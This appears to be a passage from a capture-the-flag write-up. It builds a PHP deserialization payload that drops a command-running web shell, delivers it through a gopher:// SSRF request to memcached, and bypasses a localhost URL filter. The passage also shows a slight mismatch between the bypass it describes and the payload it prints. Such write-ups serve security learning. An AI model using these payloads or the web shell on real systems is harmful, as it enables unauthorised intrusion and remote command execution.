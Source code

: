 ### Deserialization Payload 
```
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data) {
        $this->file = $file;
        $this->data = $data;
    }
}
$exploit = '<?php system($_GET["cmd"]); ?>';
$th = new TemplateHelper('testing.php',$exploit);
$th2 = serialize($th);
echo($th2);
```
This creates our malicious serialized object, and echoes it out.
Note: Many had issues at this stage of the box: the serialized object included a couple of null bytes, which were missed when copy/pasting the payload. Luckily, the serialized PHP format includes a field specifying the expected number of bytes, so I was quickly able to spot the discrepancy.

I copied the relevant code out from Gopherus into a Python file, called the PHP script via it,  and generated this payload:
`gopher://127.0.0.1:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20139%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:20:%22%00TemplateHelper%00file%22%3Bs:11:%22testing.php%22%3Bs:20:%22%00TemplateHelper%00data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a`.

### Security Checks

But now I had to bypass the security checks performed on the url.
```
	if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
	--------------------
	if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
	--------------------
	$tmp = parse_url($url, PHP_URL_HOST);
	if($tmp == "localhost" or $tmp == "127.0.0.1")
```
The first two were irrelevant, as I didn't use the `file://` protocol or attempt any argument injection. The final check looked tough, until I realised that `http://127.1` is a valid url for localhost! (`2130706433` would also work, the decimal representiation of `127.0.0.1`).
So my final payload began:
`gopher://127.0.0.1:11211/`.
### Shell
I decided to create a short script to automate this process:
```
import requests
import subprocess
import urllib
```